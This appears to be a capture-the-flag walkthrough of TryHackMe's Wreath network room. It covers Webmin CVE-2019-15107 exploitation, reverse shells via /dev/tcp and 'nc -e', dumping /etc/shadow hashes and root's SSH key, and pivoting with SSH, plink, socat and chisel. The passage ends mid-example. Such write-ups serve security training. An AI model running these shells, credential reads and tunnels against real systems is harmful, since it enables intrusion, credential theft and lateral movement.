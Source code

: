 # Wreath

Learn how to pivot through a network by compromising a public facing web machine and tunnelling your traffic to access other machines in Wreath's network. (Streak limitation only for non-subscribed users)

https://tryhackme.com/room/wreath

## 1. Background

<details>
  <summary>---</summary>

> *There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.*

- 3 machines on the network
- At least one public facing webserver
- Self hosted git server on the network
- git server is internal. There may be sensitive information to find
- PC on the network with AV installed - likely Windows
- Windows PC cannot be directly access from the webserver 

</details>

## 2. Webserver enumeration

<details>
  <summary>---</summary>

![Network map](./wreath-network.png)

### Initial scan

Start with nmap

We find there are 4 ports open

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

### Server OS

Find out what OS is running on the webserver - `centos`

```
nmap -p 80 -sV 10.200.81.200 -oN port80.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 02:00 EDT
Nmap scan report for 10.200.81.200
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
                                                                       
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
```

### Check out the web page

Opening `10.200.81.200` on a web browser redirects to `https://thomaswreath.thm/`

![Failed to resolve](./failed-resolve.png)

Fix this by editing `/etc/hosts` for Linux/Mac or `C:\Windows\System32\drivers\etc\hosts` on Windows.

`/etc/hosts` file
```
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.200.81.200   thomaswreath.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

With DNS resolving properly, we can now access the webserver and see if we can find any interesting information

We can see interesting info such as 
- Home address
- Home and mobile numbers `+447821548812 `
- Email address


### Check out port 10000 service

nmap scan reveals server version `MiniServ 1.890 (Webmin httpd)`
```
nmap -p 10000 -sV 10.200.81.200 -oN port10000.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:48 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.69 seconds
```

Vuln scan
```
nmap -p 10000 --script vuln 10.200.81.200 -oN port10000vuln.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:51 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE
10000/tcp open  snet-sensor-mgmt
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|_      http://www.exploit-db.com/exploits/1997/
|_sslv2-drown: 

Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds
```

Quick Google search reveals this server version is vulnerable to `CVE-2019–15107`

</details>

## 3. Webserver Exploitation

<details>
  <summary>---</summary>

Exploit can be downloaded and run from `https://github.com/MuirlandOracle/CVE-2019-15107`

pip is required to install dependencies `cd CVE-2019-15107 && pip3 install -r requirements.txt`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

This is just a pseudo shell. Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

If `nc` is available you can run this

```
nc -e /bin/sh 10.50.82.56 1337 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

### Stabilise the shell

1. Spawn PTY with python

```
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# 
```

2. Background the shell with `CTRL Z`. Then examine current terminal and STTY info

```
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ echo $TERM
xterm-256color

kali@kali:~$ stty -a
speed 38400 baud; rows 54; columns 185; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;
discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

```
> This reveals term type: `xterm-256color` and the size of current TTY: `rows 54; columns 185`

while the shell is in the background, run `stty raw -echo` then `fg` and `export TERM=xterm`

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45248
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ stty raw -echo
kali@kali:~$ nc -lvnp 1337
                          export TERM=xterm
[root@prod-serv ]# 
```

> Note `nc -lvnp 1337` was not typed. It was `fg` but not echoed back

The shell is now stabilised

Summary:
1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `CTRL Z`
3. `stty raw -echo`
4. `fg`
5. `export TERM=xterm`

### Dump password hash

```
cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18573::::::
systemd-coredump:!!:18573::::::
systemd-resolve:!!:18573::::::
tss:!!:18573::::::
polkitd:!!:18573::::::
libstoragemgmt:!!:18573::::::
cockpit-ws:!!:18573::::::
cockpit-wsinstance:!!:18573::::::
sssd:!!:18573::::::
sshd:!!:18573::::::
chrony:!!:18573::::::
rngd:!!:18573::::::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
unbound:!!:18573::::::
apache:!!:18573::::::                                                                                                                                                                    
nginx:!!:18573::::::                                                                                                                                                                     
mysql:!!:18573:::::: 
```

### Find interesting access keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

Since we are root, we have read access to the private key `id_rsa`. Save the key locally

```
cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
...
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

Copy it to local machine and change file permission to suit SSH standards

```
kali@kali:~/thm/wreath/.ssh$ chmod 600 id_rsa 
kali@kali:~/thm/wreath/.ssh$ ls -la
total 12
drwxr-xr-x 2 kali kali 4096 Apr  4 05:30 .
drwxr-xr-x 4 kali kali 4096 Apr  4 05:30 ..
-rw------- 1 kali kali 2602 Apr  4 05:30 id_rsa
```

> Note: if you dont change the permission of the key, you wont be able to use it

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
root@10.200.81.200: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

Now we can just use this key to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

</details>

## 4. Pivoting

<details>
  <summary>---</summary>

### Definition

Pivoting is using access obtained over one machine to exploit another machine deeper in the network.

The technique involves gaining initial access to a remote network, and use it to access other machines

![pivoting](pivoting.png)

Above there are four machines on the target network
- 1 public facing server
- 3 machines not exposed to the internet

By accessing the public server, it is then possible to pivot to attack the other 3 targets.

### Methods

Methods varies depending on OS

Two main methods:

1. Tunnelling/Proxying

Creating proxy connection through compromised machine. 
This could be tunnelled inside another protocol (eg. SSH tunnelling) which is useful in evading basic intrusion detection system or firewall

Proxying is preferred when there is need to redirect lots of different kinds of traffic to target network eg. nmap scan or access multiple ports on multiple different machines

2. Port forwarding

Creating a connection between local port and single port on a target via compromised host

Port forwarding tends to be faster and more reliable but only allow access to a single port (or small range) on a target device

Example pivoting tools

- Enumerating a network using native and statically compiled tools
- Proxychains / FoxyProxy
- SSH port forwarding and tunnelling (primarily Unix)
- plink.exe (Windows)
- socat (Windows and Unix)
- chisel (Windows and Unix)
- sshuttle (currently Unix only)

</details>

## 5. Pivoting Enumeration

<details>
  <summary>---</summary>

### Enumerate compromised host

In order of preferences

1. Using materials found on the machine eg. ARP cache, hosts file, DNS server
2. Using pre-installed tools
3. Using statically compiled tools
4. Using scripting techniques
5. Using local tools through proxy

Local tools can be slow and should be last resort

### Checking arp cache

ARP cache can be found on Windows or Linux. This will show any IP addresses of hosts that target has interacted with recently

```
arp -a
```

### Check static mapping

Found in `/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts` 

Linux local DNS found in `/etc/resolv.conf` or `nmcli dev show` - can be misconfigured to allow DNS zone transfer attack
Windows DNS server can be checked with `ipconfig /all`

### Check if nmap installed

If no nmap write a script 

ICMP ping scan 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

Port scanning - takes a long time however
```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Example static binaries

These binaries can be uploaded to the compromised machine to run. See Pivoting - Socat for more instructions

[socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[other binaries](https://github.com/andrew-d/static-binaries)

</details>

## 6. Proxychains and FoxyProxy

<details>
  <summary>---</summary>

### Proxychains

Prepend other commands. Proxychains uses config file in `./proxychains.conf`, `~/.proxychains/proxychains.conf`, or `/etc/proxychains.conf` 

```
proxychains nc 172.16.0.10 23
```

Multiple servers can be used to chain all proxies together
in `proxychains.conf`
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Comment out `proxy_dns` line when doing nmap scans through proxy chains as this can cause the scan to hang

```
# Proxy DNS requests -no leak for DNS data
# proxy_dns
```

Other things to note
- Only TCP scans - no UDP or SYN scans
- ICMP echo packets (ping) will not work, use -Pn to prevent nmap
- It will be slow. Try only use nmap through a proxy when using the NSE (use static binary to see open ports/hosts before proxying a local copy of nmap to use the scripts library)

### FoxyProxy

Better with web browser. Popular with Burp and ZAP

</details>

## 7. Pivoting SSH Tunnelling / Port Forwarding

<details>
  <summary>---</summary>

### Forward connections

Creating a forward (local) SSH tunnel done on attacking box when we have SSH access to the target. Two ways: `port forwarding` or `creating a proxy`

1. Port Forwarding

`-L` : enables port forwarding. Link to local port
`-f` : backgrounds terminal immediately
`-N` : tells SSH theres no commands to be executed only set connection

Eg.
- We have access to SSH 172.16.0.5
- Web server on 172.16.0.10
- Attacking machine: `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
- This means we can access webserver `172.16.0.10` by visiting `localhost:8000` on a web browser through SSH tunnel from `172.16.0.5`

2. Creating a proxy

`-D [port]` : open up a port on attacking box as a proxy to send data to protected network. Useful when combined with proxychains

eg.
`ssh -D 1337 user@172.16.0.5 -fN`

### Reverse connections

Preferable if you have shell on server but not SSH access.
This is however riskier as you must access your attacking machine from the target by credentials or better yet key based system

1. Generate ssh keys `ssh-keygen`

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./reverse
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./reverse
Your public key has been saved in ./reverse.pub
The key fingerprint is:
SHA256:DmgoQJUIMyG6qW2F8zRMWQgFR/BfW37m2+MWYGttQNk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|Bo*B=..      o   |
|++ +.o      o E  |
|o   +   . ..     |
|.o = o . +  +    |
|+ + B o S ..o=   |
|.o * . o   +o +  |
|. o .   .  ... . |
| .           oo  |
|            .oo. |
+----[SHA256]-----+
```

2. Copy public key (`.pub` file) then edit `~/.ssh/authorized_keys`
3. New line: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` then paste the public key. This is to ensure the key only used for port forwarding. Stopping ability to gain a shell on attacking machine
4. Check if SSH server running `sudo systemctl status ssh
```
sudo systemctl status ssh
[sudo] password for kali: 
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: man:sshd(8)
             man:sshd_config(5)
```

SSH service can be started with
```
sudo systemctl start ssh
```

5. Lastly transfer the private key to the target box. This is usually an absolute no-no. This is why we generate a throwaway set of SSH keys to be discarded as soon as the engagement is over
6. We can finally connect back with a reverse prot forwarding using

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

For example:
- Web server 172.16.0.10 
- Shell'd server 172.16.0.5 
- Attacking box 172.16.0.20

On the shell'd server
```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

On newer client the reverse proxy creation can be done with `-D`
```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To kill any connections use `ps aux | grep ssh` then `sudo kill PID`

</details>

## 8. Pivoting - plink.exe

<details>
  <summary>---</summary>

Plink.exe is a windows command line version of PuTTY SSH client. This was created before Windows had its own inbuilt SSH client.

Windows servers are unlikely to have an SSH server running so the use of plink is to transport binary to the target, then using it to create a reverse connection

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

`cmd.exe /c echo y` : non-interactive shells to get around warning message for never previously connected host

If we have access to 172.16.0.5 and forwarding connection to 172.16.0.10:80 back to port 8000 on the attacking machine 172.16.0.20

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Keys generated by `ssh-keygen` wont work here however. It will need to be converted by `puttygen` tool, installed by `sudo apt install putty-tools` then run `puttygen KEYFILE -o OUTPUT_KEY.ppk`. 

The .ppk file then can be transferred to Windows and used the same way as reverse port forwarding

plink is preinstalled on Kali at `/usr/share/windows-resources/binaries/plink.exe` but should be updated before engagement from https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

</details>

## 9. Pivoting - Socat

<details>
  <summary>---</summary>

Socat:
- Great for fully stable Linux shells
- Port forwarding.
- However, rarely installed on target
- Unlikely to bypass AV in Windows
- Makes a good relay

For example: trying to get shell on a target without direct connection. Use socat to set up a relay on the compromised machine. This listens for the reverse shell from target and forwards to attacking box

![socat as a relay](socat.png)

Above we create a port forward from a port on the compromised server to a listening port on our attacker box. The other way is also possible: either forwarding a connection from attacking machine to a target inside network; or creat a direct link between listening port on attacking machine with service on the internal server. The latter is useful as it does not require opening a port to compromised server.

To download binary for socat:

1. Set up python web server on attacking machine (in the directory with socat binary)

```
sudo python3 -m http.server 80
```

2. Download on target machine with curl

```
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

Example

Attacking machine
```
kali@kali:~/thm/wreath$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.81.200 - - [05/Apr/2021 02:40:22] "GET /socat-Neozer0 HTTP/1.1" 200 -
10.200.81.200 - - [05/Apr/2021 02:41:13] "GET /nc-Neozer0 HTTP/1.1" 200 -

```

Compromised webserver
```
root@prod-serv tmp]# curl 10.50.82.56/socat -o /tmp/socat-Neozer0 && chmod +x /tmp/socat-Neozer0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  369k  100  369k    0     0   224k      0  0:00:01  0:00:01 --:--:--  224k

[root@prod-serv tmp]# ls -la socat-N*
-rwxr-xr-x. 1 root root 378384 Apr  5 05:08 socat-Neozer0
```

### Reverse shell relay

Start a listener in attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 443
listening on [any] 443 ...

```

run socat on compromised webserver
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:8000 tcp:10.50.82.56:443 &
[1] 2136
```

`tcp-l:8000` : create first half of the connection - an IPv4 listener on tcp port 8000 of target machine
`tcp:ATTACKING_IP_443` : connects back to our local IP on port 443
`&` : backgrounds the listener while we can still use the shell for other commands

Create reverse shell on newly opened port 8000

```
chmod +x ./nc-Neozer0

./nc-Neozer0 127.0.0.1 8000 -e /bin/bash

```

Back on attacking machine we have a reverse shell

```
sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 41630
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9b:ca:22:d5:ab brd ff:ff:ff:ff:ff:ff
    inet 10.200.81.200/24 brd 10.200.81.255 scope global dynamic noprefixroute eth0
       valid_lft 2072sec preferred_lft 2072sec
    inet6 fe80::9b:caff:fe22:d5ab/64 scope link 
       valid_lft forever preferred_lft forever
```

### Port forwarding -- easy

The quick and easy way is to open up a listening port on compromised server and redirect whatever traffic it receives to target server

For example, compromise server 172.16.0.5 and target port 3306 of 172.16.0.10 then we could run `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`. This opens port 33060 on compromised server and redirects input from attacking machine straight to target server 172.16.0.10 port 3306 (MySQL database)

`fork` : put every connection into new process
`reuseaddr` : port stays open after connection is made
`&` : backgrounds the shell, keep using same terminal session

Above options combined allow us to use the same port forward for more than one connection.

We can now connect to port 33060 on the relay 172.16.0.5 and connection directly relayed to our target 172.16.0.10:3306

![port forwarding easy diagram](port-forward-easy.jpg)

### Port forwarding -- quiet

If we want to avoid opening a port and potentially alert any host/network scanning, we can use a quieter method of port forwarding with socat. This is slightly more complex.

1. Open up two port listeners on the attacking machine

Attacking machine
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports 8000 and 8001, creating port relay

2. Start a relay on compromised server

Compromised relay server
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes connection between our listening 8001 on attacking machine and open port on target server

For example, 

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This creates a link between port 8000 on attacking machine and port 80 on intended target 172.16.0.10. If we go to localhost:8000 on our attacking machine's web browser, it would load the webpage served by target 172.16.0.10:80.

Summary visiting webpage on attacking server:
- Request goes to 127.0.0.1:8000
- Socat listener, anything goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to socat porcess on the compromised server. Anything coming out of port 8001 gets sent to compromised server and relayed to port 80 on target server

Summary target sends response:
- Response sent to socat process on compromised server. What goes in process comes out to port 8001 on our attacking machine
- Anything goes in port 8001 on attacking machine comes out of port 8000 which is where web browser expects to receive its response

![port forwarding quiet diagram](port-forward-quiet.jpg)

### Killing backgrounded socat port forwards

`jobs` : run command to see socat processes
`kill %NUMBER` : kill socat process

```
kali@kali:~$ socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
[1] 6453
kali@kali:~$ jobs
[1]+  Running                 socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
kali@kali:~$ kill %1
kali@kali:~$ jobs
[1]+  Exit 143                socat tcp-l:8001 tcp-l:8000,fork,reuseaddr
```

### Examples

- Attacking IP 172.16.0.200
- relay a reverse shell to TCP port 443 on Attacking Machine

`./socat tcp-l:8000 tcp:172.16.0.200:443`

- Forward TCP port 2222 on a compromised server, to 172.16.0.100:22 (easy method)

`./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`


</details>

## 10. Pivoting - Chisel

<details>
  <summary>---</summary>

Tool to set up tunnelled proxy / port forward through a compromised system. Dont need SSH access on compromised server.

Download chisel binary from github and transfer to comrpomise webserver

Use scp

`scp -i [KEY] [FILE] user@address:/[PATH to save file]`

```
scp -i ssh/webserver_id_rsa chisel/chisel_1.7.6_linux_amd64  root@10.200.81.200:/tmp/chisel-Neozer0
chisel_1.7.6_linux_amd64                                100% 8144KB 677.9KB/s   00:12  
```

Chisel has two main uses: SOCKS proxy and port forwarding
```
./chisel-Neozer0 --help | head -19

  Usage: chisel [command] [--help]

  Version: 1.7.6 (go1.16rc1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

### Reverse SOCKS proxy

This connects back from compromised server to a listener on attacking machine

Attacking machine

```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised host
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

`R:socks` - remotes

Example

Attacking machine
```
kali@kali:~/thm/wreath$ chisel/chisel_1.7.6_linux_amd64 server -p 1337 --reverse &
[1] 8176
kali@kali:~/thm/wreath$ 2021/04/07 05:35:30 server: Reverse tunnelling enabled
2021/04/07 05:35:30 server: Fingerprint N8c7Wp59pZ7WNPRo4aVUU4MlhLOeauxzPIrIpMpfpZQ=
2021/04/07 05:35:30 server: Listening on http://0.0.0.0:1337
2021/04/07 05:37:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Notice proxy opened on 127.0.0.1:1080 - this is where we will send data through the proxy


Compromised host
```
[root@prod-serv tmp]# ./chisel-Neozer0 client 10.50.82.56:1337 R:socks &
[2] 2076
[root@prod-serv tmp]# 2021/04/07 10:37:11 client: Connecting to ws://10.50.82.56:1337
2021/04/07 10:37:13 client: Connected (Latency 262.021143ms)
```

### Forward SOCKS proxy

Less common than reverse proxies.
Like bind shells are less common than reverse shells.

Egress firewalls are less stringent than ingress firewalls

Compromised host
```
./chisel server -p LISTEN_PORT --socks5
```

Attacking box
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

`PROXY_PORT` - port opened for proxy

Example
```
./chisel client 172.16.0.10:8080 1337:socks
```

Connect to a chisel server running on port 8080 of 172.16.0.10.
SOCKS proxy would open on port 1337 of attacking machine

> Note: Proxychains config needs to be updated to SOCKS5 proxy to work with Chisel

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

### Remote port forward

Connect back from compromised target to create the forward

Attacking box
```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised server
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

`LISTEN_PORT` - port chisel server start on

`LOCAL_PORT` - port open on our attacking machine linked to target port

Example

Attacking box: 172.16.0.20
Compromised server: 172.16.0.5
Target: 172.16.0.10:22

To forward 172.16.0.10:22 back to port 2222 on attacking machine
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

Attacking box
```
./chisel server -p 1337 --reverse &
```

This would allow access to 172.16.10:22 via SSH by navigating to 127.0.0.1:2222

### Local port forward

Connect from attacking machine to chisel server listening on a compromised target

Compromised target
```
./chisel server -p LISTEN_PORT
```

Attacking box
```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Example

Connect to 172.16.0.5:8000 (compromised host running chisel), forwarding our local port 2222 to 172.16.0.10:22 (intended target)
```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```

> ./chisel client 172.16.0.100:3306 R:socks:172.16.0.200:1337 &

### Examples

- Use port 4242 for the listener and do not background the process.

`./chisel server -p 4242 --reverse`

- Connect back to this server with a SOCKS proxy from a compromised host
